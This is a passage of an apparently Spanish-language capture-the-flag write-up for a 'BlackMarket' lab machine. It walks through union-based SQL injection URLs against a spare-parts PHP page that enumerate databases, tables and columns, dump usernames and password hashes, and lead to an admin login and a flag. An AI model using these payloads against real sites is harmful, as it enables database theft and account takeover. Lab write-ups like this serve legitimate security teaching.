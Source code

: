 ```
http://192.168.0.108/vworkshop/sparepartsstoremore.php?sparepartid=-1' union select 1,2,3,group_concat(schema_name),5,6,7 from information_schema.schemata-- -
```

- Obtenemos las bases de datos existentes:

```
Cost : information_schema,BlackMarket,eworkshop,mysql,performance_schema
```

- Analizaremos la base de datos "BlackMarket"; primero enumeramos las tablas:

```
http://192.168.0.108/vworkshop/sparepartsstoremore.php?sparepartid=-1' union select 1,2,3,group_concat(table_name),5,6,7 from information_schema.tables where table_schema='BlackMarket'-- -
```

- Obtenemos la tablas:

```
Cost : cart,category,customer,flag,inventory,product,sales,sales_detail,supplier,user
```

- Analizamos las columnas que hay en la tabla "user":

```
http://192.168.0.108/vworkshop/sparepartsstoremore.php?sparepartid=-1' union select 1,2,3,group_concat(column_name),5,6,7 from information_schema.columns where table_schema='BlackMarket' and table_name='user'-- -
```

- Obtenemos las columnas de la tabla "user" de la BD "BlackMarket":

```
Cost : userid,username,password,access
```

- Ahora, extraemos la información de las columnas "username" y "password":

```
http://192.168.0.108/vworkshop/sparepartsstoremore.php?sparepartid=-1' union select 1,2,3,group_concat(username,":",password),5,6,7 from BlackMarket.user-- -
```

- Obtenemos la siguiente información:

```
Cost : admin:cf18233438b9e88937ea0176f1311885,user:0d8d5cd06832b29560745fe4e1b941cf,supplier:99b0e8da24e29e4ccb5d7d76e677c2ac,jbourne:28267a2e06e312aee91324e2fe8ef1fd,bladen :cbb8d2a0335c793532f9ad516987a41c
```

- Guardamos estos hashes y los intentamos desencriptar en hashes.com:

- Obtenemos las contraseñas para "admin", "supplier" y "user".

- En el primer login que encontramos (web raíz) intentamos acceder con estas credenciales como "admin":

- Nos salta una ventana emergente con la flag4 y un mensaje:

```
Login Success, Welcome BigBOSS! here is your flag4{bm90aGluZyBpcyBoZXJl} Jason Bourne Email access ?????
```
